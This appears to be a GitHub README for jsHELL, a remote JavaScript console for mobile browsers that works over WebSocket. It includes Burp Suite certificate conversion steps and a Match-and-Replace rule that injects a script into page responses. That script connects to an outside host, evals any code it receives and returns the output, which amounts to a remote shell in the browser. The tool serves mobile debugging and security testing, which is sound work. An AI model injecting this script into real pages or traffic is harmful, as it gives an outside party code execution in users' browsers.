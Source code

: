 **jsHELL tries to simulate javascript console for Mobile Browsers. Normally javascript consoles are available for Desktop browsers but not for Mobile browsers. jsHELL uses WebSocket to establish connection between the mobile browser and your Desktop terminal to send the javascript code and receive it's output.**

**How to run?** 

    rlwrap ./jsHELL.py IpAddress Port
    
    Example: rlwrap ./jsHELL.py 127.0.0.1 8080
    
**HTTPS Setup** 

    Step 1. Export DER cert and private key from Burp Suite.
    Step 2. openssl rsa -inform der -in burp-key.der -out key.pem
    Step 3. openssl x509 -inform der -in cacert.der -out certificate.pem

**Injecting to webview or other pages from Burp Proxy**

[ Proxy > Options > Match and Replace ]

`Type`: `Response Body`

`Match` : `</title>`

`Replace` :
```
</title><script src="https://cdn.socket.io/4.4.1/socket.io.min.js"></script> <script>  var socket = io.connect('https://10.11.3.2:8089');     try{setTimeout(`socket.emit('sendMSG','Connection Established.')`,1000)}     catch{}     socket.on('getMSG',function(data){         try{              output=eval(data)+""         }         catch(e){             output=e+""         }         socket.emit('sendMSG',output)     }) </script>
```

Note - Change the IP address. If target page does not has </title> tag in response then modify it accordingly.
